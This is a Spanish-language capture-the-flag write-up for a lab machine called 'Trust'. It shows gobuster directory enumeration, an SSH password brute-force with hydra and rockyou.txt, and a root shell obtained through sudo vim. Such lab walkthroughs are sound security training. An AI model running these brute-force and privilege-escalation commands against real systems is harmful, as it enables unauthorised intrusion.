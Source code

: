# WriteUp Maquina Trust

Primero haremos un Ping a la IP para verificar que haya conexion

<h2><b>Escaneo de Puertos</b></h2>
Iniciamos con un escaneo básico de puertos y encontramos los siguientes servicios abiertos:
<br>
<br>
<img src="https://github.com/user-attachments/assets/3f91c7d4-234b-4e49-a9d8-9fcaf6f60ebf">
<br>
<br>
<h2><b>Enumeración de Directorios</b></h2>
<br>
Utilizamos gobuster para enumerar directorios en el puerto 80:
<br>
<br>
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
<br>
<br>
<img src="https://github.com/user-attachments/assets/2361a103-d894-4f12-b8cf-09f2ff44cc11">
<br>
<br>
<h2><b>Resultado</b></h2>
<br>
Encontramos un archivo interesante:
<br>
/secret.php
<br>
<br>
Accedemos a " http://172.18.0.2/secret.php ", pero solo encontramos un mensaje que dice "HOLA MARIO". Sin más información útil, decidimos explorar otras opciones.
<br>
<br>
<img src="https://github.com/user-attachments/assets/2f3034b3-d3b6-4340-9b76-267ee5e5a933">
<br>
<br>
<h2><b>Fuerza Bruta en SSH</b></h2>
<br>
Dado que encontramos un usuario potencial ("mario") en /secret.php, procedemos a un ataque de fuerza bruta en el puerto 22 (SSH) para descubrir la contraseña:
<br>
<br>
hydra  -l mario -P /home/kali/Downloads/rockyou.txt ssh://172.18.0.2
<br>
<br>
Credenciales encontradas:
<br>
Usuario: mario
<br>
Contraseña: chocolate
<br>
<br>
<h2><b>Acceso al Sistema</b></h2>
<br>
Usamos las credenciales obtenidas para iniciar sesión por SSH:
<br>
ssh mario@172.18.0.2
<br>
<br>
<h2><b>Escalada de Privilegios</b></h2>
<br>
Al verificar los privilegios de sudo con sudo -l, observamos lo siguiente:
<br>
<br>
<img src="https://github.com/user-attachments/assets/dacc3017-5890-4356-ab6a-bc0bed7de500">
<br>
<br>
Esto indica que podemos usar vim como root. Para explotar este permiso, consultamos GTFOBins.
<br>
<br>
<h2><b>Comando para obtener acceso root:</b></h2>
sudo vim -c ':!/bin/sh'
<br>
<br>
Al ejecutar este comando, logramos escalar privilegios y obtener acceso root.
<br>
<br>
<img src="https://github.com/user-attachments/assets/299a427e-5260-4673-9734-7f0c61668cef">
<br>
<br>
¡Y eso es todo, ya somos root!






